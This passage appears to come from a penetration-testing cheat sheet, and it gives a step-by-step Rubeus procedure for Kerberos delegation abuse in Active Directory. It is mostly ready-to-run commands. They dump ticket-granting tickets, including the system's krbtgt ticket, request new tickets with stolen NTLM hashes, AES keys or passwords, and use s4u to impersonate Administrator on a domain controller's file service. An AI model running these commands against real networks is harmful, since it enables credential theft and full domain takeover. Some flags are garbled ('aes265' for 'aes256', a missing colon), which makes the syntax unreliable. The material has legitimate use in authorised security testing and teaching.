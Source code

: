 


**Triage current tickets**

```
Rubeus.exe Triage
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Method: Dump system TGT**

```
Rubeus.exe dump /luid:0x3e4 /service:krbtgt /user:srv01 /nowrap
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Invoke-Rubeus" %}
```powershell
# Triage current tickets
Invoke-Rubeus -Command "triage"

# Dump the systems TGT
Invoke-Rubeus -Command "dump /luid:[LUID] /service:[krbtgt] /user:[Hostname] /nowrap"

# OR
# If you have the NTLM hash for the compromised account
Invoke-Rubeus -Command "asktgt /user:[User] /ntlm:[NTLM Hash] OR /aes265[aes265 Hash]"

# If you have the aes265 hash for the compromised account
Invoke-Rubeus -Command "asktgt /user:[User] /aes265[aes265 Hash]"

# If you have the plain text password
Invoke-Rubeus -Command "asktgt /user:[User] /password:[Password]"
```
{% endtab %}
{% endtabs %}

## Obtains TGS for service

{% tabs %}
{% tab title="Rubeus Binary" %}
{% code overflow="wrap" %}
```bash
# Use obtained TGT to request a TGS ticket for the delegated service and impersonate another user
Rubeus.exe s4u /impersonateuser:[User] /msdsspn:[SPN/FQDN] /user:[User] /ticket:[Base64 ticket] /nowrap
```
{% endcode %}

**Example**

{% code overflow="wrap" %}
```
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/dc01.security.local /user:srv01$ /ticket:[Base64 ticket] /nowrap
```
{% endcode %}
